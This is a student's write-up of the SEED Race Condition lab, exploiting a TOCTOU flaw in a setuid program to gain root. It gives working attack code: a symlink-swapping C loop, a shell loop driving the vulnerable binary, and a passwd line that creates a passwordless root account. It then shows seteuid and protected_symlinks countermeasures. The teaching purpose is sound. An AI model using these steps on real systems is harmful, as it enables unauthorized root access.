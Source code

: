 ```yaml
---
title: Race Condition Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Race_Condition.pdf

# Task 1

Fail to edit it even use root `vim`.

So first change its owner
```bash
sudo chown seed /etc/passwd
```
Then modify the file and return it to `root`
```bash
sudo chown root /etc/passwd
```
> I think the instruction can give more easy options: `sudo adduser test` then enter `U6aMy0wojraho` as its password or use GUI following [this document](https://help.ubuntu.com/stable/ubuntu-help/user-add.html.en). Anyway, **it is too dangerous to edit `/etc/passwd` directly**.

Yes, I can log in test user using just an enter press and get the root privilege.

```
[03/09/20]seed@VM:~/.../race$ su - test
Password: 
root@VM:~# whoami
root
```

write a file named `passwd_input` with the one-line content:

```
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

# Task 2

Use `attack_process.c` to keep changing what `/tmp/XYZ` points to.

```c
#include <unistd.h>

int main()
{
    while (1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```

Compilation:

```
gcc -o attack_process attack_process.c
```

Run `./attack_process` and start a new user shell execute `target_process.sh` (with `bash target_process.sh` command or use `chmod u+x target_process.h` before):

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Finally, the attack works:

![Get the root shell](./attack.png)

# Task 3

Edit `vulp.c` as:

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    uid_t real_uid = getuid();
    uid_t eff_uid = geteuid();

    /* get user input */
    scanf("%50s", buffer);

    seteuid(real_uid);

    fp = fopen(fn, "a+");
    if (fp) // Instead of checking by access(), directly check if open() returns proper pointer. **Note that it should not be compared with -1 as the textbook suggests.**
    {
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else
        printf("No permission \n");

    seteuid(eff_uid);
}
```

Note the modifications in Line 10-11, 16, 18-19 and 28.

- Before accessing the file, use `seteuid` to set the effective user ID to the real user ID, which disables its root privilege temporarily.
- After writing, use `seteuid` to set the effective user ID to its original value, which recovers its root privilege.
- Directly checking if `open()` return the file pointer instead of using `access()` to check the privilege.

Then the attack fails, the countermeasure stops the program from invoking the `open()` system call due to no root privilege.

# Task 4

When turn on the protector:

```
sudo sysctl -w fs.protected_symlinks=1
```
The `target_process` stops and gets stuck with a `Segmentation fault` error message. It cannot write anything into `/etc/passwd`.

In other words, even though it can still win the race condition, it will never follow the symbolic link created by the normal user, which leads to the crash.

Because `/tmp` is a [sticky directory](https://en.wikipedia.org/wiki/Sticky_bit) owned by `root`, with the sticky symlink protection enabled, symbolic inside the directory must be created by either the owner of the directory, or the follower (the effective UID of the process), otherwise the symbolic will not be followed. As `vulp` is a `SETUID` program, which means the follower is `root` as well, the symbolic link will not work if attacked.

